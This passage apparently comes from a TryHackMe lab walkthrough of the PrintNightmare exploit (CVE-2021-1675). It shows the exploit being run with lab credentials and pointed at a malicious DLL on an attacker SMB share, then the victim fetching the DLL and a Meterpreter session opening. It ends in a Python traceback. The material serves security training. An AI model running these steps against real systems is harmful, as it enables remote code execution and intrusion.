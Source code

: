```
Run the exploit

root@attackbox:~/Desktop/pn/CVE-2021-1675# python CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@10.10.118.174 '\\192.168.0.100\share\malicious.dll'
[*] Connecting to ncacn_np:10.10.118.174[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.0.100\share\malicious.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...
[*] Stage0: 0
```

You may see Python errors after Try 3... but they are safe to ignore.

On the attacker box, you should see the SMB connection calling for the malicious DLL file.

```
Victim connects to the SMB share for the malicious DLL

root@attackbox:~/Desktop/pn# ...
[*] Incoming connection (10.10.118.174,55037)
[*] AUTHENTICATE_MESSAGE (\,FINANCE-01)
[*] User FINANCE-01\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.210.90,55037)
[*] Remaining connections []
```

Lastly, you will have a successful Meterpreter session. 

```
Incoming connection received

msf5 exploit(multi/handler) > [*] Sending stage (201283 bytes) to 10.10.118.174 [*] Meterpreter session 1 opened (192.168.0.100:4444 -> MACHINE_IP:55038) at 2021-08-17 17:56:31 +0100
```

![|333](https://tryhackme-images.s3.amazonaws.com/user-uploads/5de58e2bfac4a912bcc7a3e9/room-content/54ca28f6a4af72beeb9855a69cb4816a.png)

```
┌──(root㉿kali)-[~/Desktop/pn/CVE-2021-1675]
└─# python CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@10.10.150.198 '\\10.13.0.182\share\malicious.dll'
[*] Connecting to ncacn_np:10.10.150.198[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.13.0.182\share\malicious.dll
[*] Try 1...
Traceback (most recent call last):
  File "/root/Desktop/pn/CVE-2021-1675/CVE-2021-1675.py", line 188, in <module>
    main(dce, pDriverPath, options.share)
  File "/root/Desktop/pn/CVE-2021-1675/CVE-2021-1675.py", line 93, in main
    resp = rprn.hRpcAddPrinterDriverEx(dce, pName=handle, pDriverContainer=container_info, dwFileCopyFlags=flags)
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/dcerpc/v5/rprn.py", line 633, in hRpcAddPrinterDriverEx
```